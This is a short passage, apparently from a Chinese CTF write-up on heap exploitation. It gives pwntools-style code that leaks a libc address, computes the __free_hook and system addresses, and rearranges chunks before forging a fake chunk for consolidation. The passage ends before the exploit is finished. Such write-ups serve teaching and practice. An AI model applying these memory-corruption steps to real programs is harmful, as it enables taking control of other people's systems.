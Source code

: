 [![](assets/1701606615-30380042607d29d2bcd14ec14f066a25.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231115212945-0ac74654-83bb-1.png)  
泄露一下 libc 然后，把 chunk 链入 small bin 中

```plain
add(11,0x10,'')

show(11)
r(9)
libc_base=u64(p.recv(6).ljust(8,'\x00'))-0x1ecc0a
leak('libc_base ',libc_base)

free_hook = libc_base + libc.sym['__free_hook']
system = libc_base + libc.sym['system'] 

delete(11)
add(12,0xe0,'')
```

[![](assets/1701606615-1978865330df484557ea2e1c2d9a9300.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231115213004-15ac9b96-83bb-1.png)  
然后在下面那个位置伪造 chunk 来进行合并